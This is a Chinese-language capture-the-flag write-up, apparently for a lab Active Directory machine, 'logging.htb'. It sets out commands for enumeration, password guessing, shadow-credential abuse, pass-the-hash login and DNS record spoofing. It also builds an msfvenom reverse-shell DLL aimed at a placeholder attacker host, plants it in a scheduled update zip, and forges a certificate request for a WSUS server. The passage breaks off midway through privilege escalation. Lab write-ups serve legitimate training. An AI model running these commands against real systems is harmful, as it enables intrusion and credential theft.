# Logging #
## nmap探测 ##
#### `nmap -sT --min-rate 10000 -p- 10.129.42.196`


#### `nmap -sT -sC -sV -O -A -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389 10.129.42.196`


#### 时钟存在偏差clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
#### 使用`sudo ntpdate 10.129.42.196`进行同步，注意需要先关闭时间自动更新`sudo systemctl stop systemd-timesyncd`（为了严谨同步完时间最好用nmap再探测一遍）
#### 配置host绑定域名`sudo sed -i '1i 10.129.42.196 DC01.logging.htb logging.htb' /etc/hosts`


## Web探测 ##


#### `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://logging.htb/ -x asp,html,aspx,txt`


#### 除了80端口还有8530/8531也是http服务但都是空白页，暂时不知道有什么用


#### 尝试子域名爆破`wfuzz -c -w /usr/share/wordlists/subdomain.txt -u "http://logging.htb" -H "host:FUZZ.logging.htb" --hw 55`也没跑出什么东西

## 域信息收集 ##
#### Web线索中断，使用初始账号`wallace.everette / Welcome2026@`对服务进行探测
`enum4linux-ng -A -u 'wallace.everette' -p 'Welcome2026@' logging.htb`


#### Logs、NETLOGON、SYSVOL可访问，挨个检查


#### 在IdentitySync_Trace_20260219.log中发下一个账号密码，但是根据日志信息密码应该是过期了


#### 试一下，果然失败了，先记录。继续使用初始账号进行域信息收集


#### `bloodhound-python -u 'wallace.everette' -p 'Welcome2026@' -d 'logging.htb' -c All --zip --dns-tcp -ns 10.129.42.196`


#### svc_recovery账号对msa_health$账号有完全的控制权限，msa账号又属于REMOTE MANAGEMENT USERS组。svc账号属于Protected组，关于这个组的信息如下：


#### 目前还没有svc账号的密码，这里卡了很久……最后还是看了Writeup。才反应过来密码是有规律的，初始账号有年份2026，svc_recovery的密码中也有年份2025。将Em3rg3ncyPa\$\$2025改成Em3rg3ncyPa\$\$2026

#### 获取svc_recovery的TGT`impacket-getTGT logging.htb/svc_recovery:'Em3rg3ncyPa$$2026' -dc-ip 10.129.42.196`
#### `export KRB5CCNAME=svc_recovery.ccache`


#### 再用svc_recovery创建msa_health$的影子凭证`certipy-ad shadow auto -u 'svc_recovery@logging.htb' -k -no-pass -account 'msa_health$' -dc-ip 10.129.42.196 -target DC01.logging.htb`


#### 远程登录`evil-winrm -i 10.129.42.196 -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5'`


#### 阅读moitor.ps1有计划任务


#### 查看任务信息，依次执行
```
$service = New-Object -ComObject "Schedule.Service"
$service.Connect()
$task = $service.GetFolder("\").GetTask("UpdateChecker Agent")
$task.Definition
```
#### 关键信息：Jaylee.clifton每三分钟执行一次C:\Program Files\UpdateMonitor\UpdateMonitor.exe




#### 在C:\ProgramData\UpdateMonitor\Logs中发现log信息，每隔3分钟解压一次Settings_Update.zip，然后加载settings_update.dll


## 制作木马反弹shell
`msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKIP LPORT=4447 -a x86 --platform windows -f dll -o settings_update.dll`

`zip Settings_Update.zip settings_update.dll`



#### 稍等片刻就会收到反弹shell


#### 在用户桌面找到flag


## 提权
#### 在C:\Users\jaylee.clifton\Documents\Tickets目录中找到一个html，保存到本地查看


#### DNS服务器还没更新，wsus.logging.htb是WSUS的服务器，每2分钟运行一个定时任务，攻击路径：伪造DNS➡计划任务执行➡获取恶意文件

#### msa_health$就有更新dns记录的权限


#### SeMachineAccountPrivilege这个权限可以将计算机添加到域：也就是创建一个新的机器账户。可以在域的 DomainDnsZones 分区中创建 DNS 记录。

#### 添加DNS记录`bloodyAD -d logging.htb -u msa_health$ -p ':603fc24ee01a9409f83c9d1d701485c5' --host DC01.logging.htb --dc-ip 10.129.42.196 add dnsRecord wsus 10.10.17.76`



#### 使用msa_health$进行证书枚举
`certipy-ad find -u 'msa_health$@logging.htb' -hashes ':603fc24ee01a9409f83c9d1d701485c5' -target DC01.logging.htb -dc-ip 10.129.42.196`

#### IT组的用户可以注册UpdateSrv证书，但是EKU不是传统的Client认证，是Server认证需要绕一下


#### 通过反弹shell拿到的jaylee.clifton就是IT组的用户



#### csr伪造
```
from cryptography import x509
from cryptography.x509.oid import NameOID
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import rsa

pk = rsa.generate_private_key(public_exponent=65537, key_size=2048)
open('wsus_key.pem', 'wb').write(pk.private_bytes(
    serialization.Encoding.PEM,
    serialization.PrivateFormat.TraditionalOpenSSL,
    serialization.NoEncryption()))

csr = (x509.CertificateSigningRequestBuilder()
       .subject_name(x509.Name([
           x509.NameAttribute(NameOID.COMMON_NAME, 'wsus.logging.htb')]))
       .add_extension(x509.SubjectAlternativeName([
           x509.DNSName('wsus.logging.htb'), x509.DNSName('wsus')]), critical=False)
       .sign(pk, hashes.SHA256()))
open('req.csr', 'wb').write(csr.public_bytes(serialization.Encoding.DER))
```
#### 执行后会生成req.csr，上传到服务器



#### 使用jaylee.clifton的会话申请证书
`cmd /c "echo N | certreq -f -submit -attrib ""CertificateTemplate:UpdateSrv"" -config ""DC01.logging.htb\logging-DC01-CA"" ""C:\ProgramData\UpdateMonitor\req.csr"" ""C:\ProgramData\UpdateMonitor\cert.cer"" >nul 2>&1"`


#### 证书保存到本地，使用openssl生成pfx证书
```
openssl pkcs12 -export -out wsus_srv.pfx -inkey wsus_key.pem -in cert.cer -passout pass:
openssl pkcs12 -in wsus_srv.pfx -out wsus_srv_cert.pem -clcerts -nokeys -passin pass:
openssl pkcs12 -in wsus_srv.pfx -out wsus_srv_key.pem  -nocerts  -nodes  -passin pass:
openssl x509 -in wsus_srv_cert.pem -noout -subject -ext subjectAltName
```
